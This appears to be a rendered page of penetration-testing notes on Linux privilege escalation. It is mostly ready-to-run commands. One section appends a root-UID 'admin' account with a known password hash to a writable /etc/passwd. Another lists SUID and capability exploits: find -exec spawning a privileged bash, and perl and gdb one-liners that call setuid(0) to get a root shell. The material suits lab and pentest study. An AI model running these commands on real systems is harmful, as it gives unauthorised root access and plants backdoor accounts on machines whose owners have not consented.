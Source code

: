 ## Abusing Passwd Backward compatibility

* Requires insecure write file permisison /etc/passwd
* create a known password hash `openssl passwd s3cret`
* append it to /etc/passwd file

```bash
# find world writeable /etc/passwd
ls -lah /etc/passwd
openssl passwd s3cret
echo "admin:dfRJvv47IBQLI:0:0:root:/root:/bin/bash" >> /etc/passwd

# one-liner to append user admin:s3cret to /etc/passwd
echo "[+] Add admin:s3cret to /etc/passwd"; cat /etc/passwd; grep "root" /etc/passwd | sed "s/root:x/admin:dfRJvv47IBQLI/g" | tee -a /etc/passwd;
```

## Abusing SUID Binary

* Requires a process with suid (s) being executed
* Get process id `ps aux -C passwd`
* Grep real, effective, saved set and filesystem UIs
  * e.g. `grep Uid /proc/1932/status`
  * Uid: 1000   0   0   0  
* find suid bit `find / -perm -u=s`
* find suid cap `/usr/sbin/getcap -r / 2>/dev/null`

```bash
# find suid bit
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null

# verify suid bit
ls -asl /usr/bin/passwd
 64 -rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd

# add suid bit with chmod
chmod u+s find

# exploit find suid bit
find /home/bob/ -exec "/usr/bin/bash" -p \;
whoami
 root

# find suid cap
/usr/sbin/getcap -r / 2>/dev/null

# exploit perl cap_suid+ep (gtfobins.github.com)
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash"'

# exploit gdb cap_suid+ep (gtfobins.github.com)
# cp $(which gdb) .
# sudo setcap cap_setuid+ep gdb
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit

```
